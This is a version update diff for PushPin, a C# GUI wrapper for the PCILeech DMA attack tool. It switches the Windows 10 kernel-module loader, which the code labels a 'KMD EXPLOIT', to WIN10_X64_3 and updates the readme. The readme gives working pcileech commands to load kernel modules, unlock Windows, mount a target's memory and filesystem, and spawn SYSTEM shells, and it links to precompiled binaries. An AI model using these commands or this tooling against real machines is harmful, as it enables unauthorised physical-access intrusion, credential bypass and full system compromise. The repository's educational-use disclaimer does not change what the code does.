

Version 1.1 update

Changed region(s): [[0.0, 0.0, 0.9875, 0.9834]]

diff --git a/source/Form.cs b/source/Form.cs
@@ -4,7 +4,7 @@
 // Description: PushPin is designed to provide a visual interface wrapper to pcileech
 // PushPin author: JT, jtestman@gmail.com
 // PCILeech author: Ulf Frisk, pcileech@frizk.net
-// Dependencies: PCILeech v4.6 - https://github.com/ufrisk and it's dependencies 
+// Dependencies: PCILeech v4.7 - https://github.com/ufrisk and it's dependencies 
 /*******************************************************************************************************************************/
 
 namespace PushPin
@@ -110,9 +110,10 @@ namespace PushPin
         }
 
         //
-        // ***  WIN 10x64_2 memmap method KMD EXPLOIT *** //
+        // ***  WIN 10x64_3 memmap method KMD EXPLOIT *** //
+        // WIN10_X64_3 is currently stable accross versions of Windows 10 including Windows 10 2004 release
         //
-        private void Button_win10x64_2_Click(object sender, EventArgs e)
+        private void Button_win10x64_3_Click(object sender, EventArgs e)
         {
             try
             {
@@ -121,7 +122,7 @@ namespace PushPin
                 start.UseShellExecute = false;
                 start.CreateNoWindow = true;
                 start.RedirectStandardOutput = true;
-                start.Arguments = "kmdload -kmd WIN10_X64_2 -memmap auto ";
+                start.Arguments = "kmdload -kmd WIN10_X64_3 -memmap auto ";
 
                 //
                 // Start the process.
@@ -137,7 +138,7 @@ namespace PushPin
 
                         textBox_status.Text = result;
 
-                        Class_action.Action = "Win10x64_2 KMD";
+                        Class_action.Action = "Win10x64_3 KMD";
                         Class_status.Status = result;
                     }
                 }

diff --git a/source/Form.Designer.cs b/source/Form.Designer.cs
@@ -82,18 +82,18 @@
             // 
             // button_win10x64_2
             // 
-            this.button_win10x64_2.Location = new System.Drawing.Point(143, 82);
-            this.button_win10x64_2.Name = "button_win10x64_2";
+            this.button_win10x64_2.Location = new System.Drawing.Point(143, 19);
+            this.button_win10x64_2.Name = "button_win10x64_3";
             this.button_win10x64_2.Size = new System.Drawing.Size(122, 50);
             this.button_win10x64_2.TabIndex = 0;
             this.button_win10x64_2.TabStop = false;
-            this.button_win10x64_2.Text = "Win10x64_2";
+            this.button_win10x64_2.Text = "Win10x64_3";
             this.button_win10x64_2.UseVisualStyleBackColor = true;
-            this.button_win10x64_2.Click += new System.EventHandler(this.Button_win10x64_2_Click);
+            this.button_win10x64_2.Click += new System.EventHandler(this.Button_win10x64_3_Click);
             // 
             // button_win10x64
             // 
-            this.button_win10x64.Location = new System.Drawing.Point(143, 20);
+            this.button_win10x64.Location = new System.Drawing.Point(143, 82);
             this.button_win10x64.Name = "button_win10x64";
             this.button_win10x64.Size = new System.Drawing.Size(122, 50);
             this.button_win10x64.TabIndex = 0;

diff --git a/source/Program.cs b/source/Program.cs
@@ -4,7 +4,7 @@
 // Description: PushPin is designed to provide a visual interface wrapper to pcileech
 // PushPin author: JT, jtestman@gmail.com
 // pcileech author: Ulf Frisk, pcileech@frizk.net
-// Dependencies: PCILeech v4.6 - https://github.com/ufrisk and it's dependencies 
+// Dependencies: PCILeech v4.7 - https://github.com/ufrisk and it's dependencies 
 /*******************************************************************************************************************************/
 
 namespace PushPin

diff --git a/source/SettingsClass.cs b/source/SettingsClass.cs
@@ -4,7 +4,7 @@
 // Description: PushPin is designed to provide a visual interface wrapper to pcileech
 // PushPin author: JT, jtestman@gmail.com
 // PCILeech author: Ulf Frisk, pcileech@frizk.net
-// Dependencies: PCILeech v4.6 - https://github.com/ufrisk and it's dependencies
+// Dependencies: PCILeech v4.7 - https://github.com/ufrisk and it's dependencies
 /*******************************************************************************************************************************/
 
 namespace PushPin

diff --git a/readme.md b/readme.md
@@ -11,7 +11,7 @@ If you're not sure what PCILeech is please read up on the project first. https:/
 
 The GUI workflow is similar to the PCILeech CLI, first successfully load a KMD (KMD LOADERS) and then use the KMD address to load Kernel-mode implants (ACCESS). The following PCILeech kmdload, commands and Kernel-mode implants specfic to Windows Operating Systems are included. 
 
-* Load a kernel module into Windows7x64 or Windows 10x64  
+* Load a kernel module into Windows 7 or Windows 10 64-bit operating system  
 * Unlock Windows 
 * Mount the targets filesystem and memory
 * SYSTEM or USER command shell
@@ -20,13 +20,16 @@ The GUI workflow is similar to the PCILeech CLI, first successfully load a KMD (
 ### PushPin GUI overview
 ![](pushpin_description.PNG) 
 
+### KMD Loader Update
+Please use WIN10_X64_3 and then WIN10_X64 if it fails. WIN10_X64_3 is currently stable accross versions of Windows 10 including Windows 10 2004 release. 
+
 ### Logging
 PushPin provides a minimal level of logging of actions taken while using the GUI. The PushPinLog.txt log file is created or appended when an action is taken.
 
 ## System Requirements
-Please ensure [PCILeech Version 4.6](https://github.com/ufrisk/pcileech) functions correctly with the commands listed above. 
+Tested with [PCILeech Version 4.7](https://github.com/ufrisk/pcileech) and functions correctly with the commands listed above. You can download PCILeech precompiled binarys [here](https://github.com/ufrisk/pcileech/releases/download/v4.7/PCILeech_files_and_binaries_v4.7-20200907.zip).     
 
-PushPin is developed in C# targeted for .NET Framework 4.5. Compile or use the precompiled PushPin.exe binary and place it into the the same directory as pcileech.exe.
+PushPin is developed in C# targeted for .NET Framework 4.5. Compile or use the precompiled PushPin.exe binary and place it into the the same directory as pcileech.exe. [Download the latest PushPin.exe](https://github.com/LuckyPi/PushPin/releases/latest).
 
 At a miminum your directory should contain:
 ```
@@ -41,6 +44,7 @@ wx64_pscmd_user.ksh
 wx64_pscreate.ksh
 wx64_pslist.ksh
 wx64_unlock.ksh
+win7x64.kmd
 ```
 
 #### <b>The following commands must work in the CLI for the GUI to work</b>
@@ -49,7 +53,7 @@ Load a kernel module into Windows 7x64 or Windows 10x64:
 ``` 
 pcileech kmdload -kmd win7x64
 pcileech kmdload -kmd win10_x64
-pcileech kmdload -kmd win10_x64 -memmap auto 
+pcileech kmdload -kmd win10_x64_3 -memmap auto 
 ```
 *pcileech kmdload -kmd win10_x64 -memmap auto* - integrates with MemProcFS 
 
@@ -79,4 +83,8 @@ pcileech wx64_pscreate -kmd kmdaddress -s c:\windows\system32\spoolsvupdate.exe 
 Use at your own risk. This code is provided for educational purposes ONLY. Developers assume no liability and shall not be held responsible for any damage that may result from use or misuse of the provided code. It's the end users responsibility to obey all applicable local, state, federal and country specfic laws.  
 
 ### Changelog
-v1.0 Initial release.
+v1.0 
+ * Initial release.
+
+v1.1
+* Updated to reflect WIN10_X64_3 kernel module
